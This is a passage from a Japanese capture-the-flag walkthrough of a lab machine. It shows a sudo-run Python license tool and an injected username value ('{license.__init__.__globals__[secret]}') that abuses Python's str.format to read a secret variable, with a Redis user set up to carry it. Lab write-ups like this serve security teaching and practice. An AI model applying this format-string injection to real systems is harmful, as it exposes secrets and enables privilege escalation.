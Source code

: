 ```python:/usr/bin/license
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```

使い方は次の通りです。ソースコードを読むと、`-d` は未実装です。

```
cooper@format:~$ sudo license -h
usage: license [-h] (-p username | -d username | -c license_key)

Microblog license key manager

optional arguments:
  -h, --help            show this help message and exit
  -p username, --provision username
                        Provision license key for specified user
  -d username, --deprovision username
                        Deprovision license key for specified user
  -c license_key, --check license_key
                        Check if specified license key is valid
```

試しに実行してみるとこのようになりました。

```
cooper@format:~$ sudo license -p tyo

Plaintext license key:
------------------------------------------------------
microblogtyo@h/,>{)B*XJ3rcd3Bytab)<kcp`+]jd%20^}cKl8aaaa

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABlGVSzBQRODqOTPimT_H18AD8ZEJA_O4cePzZKWd2hquKs60PtnnkMGr3_r4R1SrwMiIDKN_gvvb4xIQTAt9XI9kU-nXI7rUlz0qSz0NlavQC4NmpJVh2Jqy_YagVGIAsAq1cZwXIGkQWAdYef45o8Y10wSQ==
```

`/usr/bin/license` のソースコードを読んでみると、怪しい `format` がありました。

```python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

このページを参考にすると、`secret` 変数の中身を見ることができました。

https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-format-string

実際には次の内容を `username` にセットしました。

```python
{license.__init__.__globals__[secret]}
```

Redis で上記の `username` を持つ適当なユーザ `testC` を作成しました。
